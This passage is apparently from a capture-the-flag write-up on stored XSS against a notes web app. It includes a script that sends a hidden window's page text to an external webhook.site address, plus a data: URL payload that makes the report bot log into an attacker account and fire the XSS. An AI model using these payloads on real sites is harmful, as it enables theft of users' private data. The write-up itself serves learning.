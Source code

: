 ```javascript
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/a5591c91-8eec-4366-9388-e231484f01b5?' + window.open('', 'pwn').document.body.textContent
</script>
```

I added a clause to check for `?pwn` in the url because without it the website was crashing since it was redirecting every time you accessed notes. Now, let's go ahead and plant it.

![Planted XSS](<../.gitbook/assets/image (21).png>)

Now, it is time for the main script. The one that goes into the `/report` page, into the `url` field.

Here I want to do three things inside puppeteer in a sequence.&#x20;

1. Open a new window named "pwn" with url `http://localhost/notes`. This will open the "My notes" page as bot account. Which has the flag.
2. Login in to our test account with credentials `a:a`\`
3. Go to `/notes?pwn` after logging in which will capture the contents of "pwn" window automatically due to xss.

That's it. That should do it. Now let's have a look at the code.&#x20;

```html
data:text/html,
<form action="http://localhost:8080/login" method=POST id=pwn target=_blank>
  <input type="text" name="username" value="a"><input type="text" name="password" value="a">
</form>
<script>
  window.open('http://localhost:8080/notes', 'pwn');
  setTimeout(`pwn.submit()`, 1000);
  setTimeout(`window.location='http://localhost:8080/notes?pwn'`, 1500);
</script>
```
